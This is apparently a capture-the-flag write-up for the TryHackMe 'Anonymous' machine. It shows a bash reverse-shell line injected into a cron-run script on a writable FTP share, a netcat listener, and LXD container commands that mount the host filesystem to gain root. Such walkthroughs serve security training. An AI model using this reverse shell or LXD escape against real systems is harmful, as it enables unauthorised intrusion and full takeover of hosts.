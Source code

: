 # Anonymous Walkthrough - TryHackMe  

---

### Introduction 

Essentially, the owner of the box left an **FTP directory writable to guests**. Inside, there is a bash script called `clean.sh` that cleans the `/tmp` directory. This script is run by a **cron job**, which means we can **modify files in the FTP share** to include a malicious line of code and gain a shell on the box — part 1 done.  

For privilege escalation, the user we log in as is a member of the **sudo group**. This allows us to leverage **LXD** to get root on the box.  

Let’s jump in!  

---

### Step 1: Nmap Scan

We start with a basic scan:

```
nmap -sC -sV <target-ip>
```

Initially, only two ports were open.

No web server was found, so a full TCP scan was run to check for missed ports.

Two more ports were discovered: standard SMB ports.

### Step 2: Service Analysis

We discovered anonymous FTP login is allowed.

### Step 3: FTP Enumeration

Connect to FTP using:
```
ftp <target-ip>
```
Explore the files on the FTP share:

`To_do.txt – Reminder to disable anonymous login
clean.sh – Bash script deleting /tmp files
removed_files.log – Logs of deleted files`

Since the script is run by cron, modifying clean.sh allows us to inject a reverse shell.
### Step 4: SMB Enumeration

SMB share named pics allowed NULL authentication.

### Step 5: Gaining a Shell

Edit clean.sh and add a bash reverse shell with your IP:
```
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
```
Upload the modified script using FTP put:
```
ftp> put clean.sh
```
Start a listener on your machine:
```
nc -lvnp 4444
```
Wait for the cron job to execute clean.sh. A few seconds later, a shell is obtained.

### Step 6: Capture User Flag

Navigate to the user's home directory:
```
cat user.txt
```
### Step 7: Privilege Escalation

Found potential privilege escalation via LXD.

###Step 8: Exploiting LXD

LXD is Ubuntu's container manager using Linux containers. Users in the lxd group can be exploited to gain root.
`
Download LXD Alpine builder from GitHub.
Build a small Alpine Linux image.
Upload the image to the target machine.
Import the image into LXC:
`
```
lxc image import alpine.tar.gz --alias myalpine
```
Run following commands
```
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
cd /mnt/root
chroot /mnt/root /bin/bash
```
We now have root access on the box.

### Step 9: Capture Root Flag
`
cat /root/root.txt
`
Submit the flag and claim your points!
Conclusion

Exploited writable FTP + cron to get a shell.

Escalated privileges using LXD containers.

Learned about the dangers of sudo group membership and LXD.

References

<a href="https://reboare.github.io/lxd/lxd-escape.html">Privilege Escalation via LXD</a>
TryHackMe Room: <a href="https://tryhackme.com/room/anonymous">Anonymous</a>
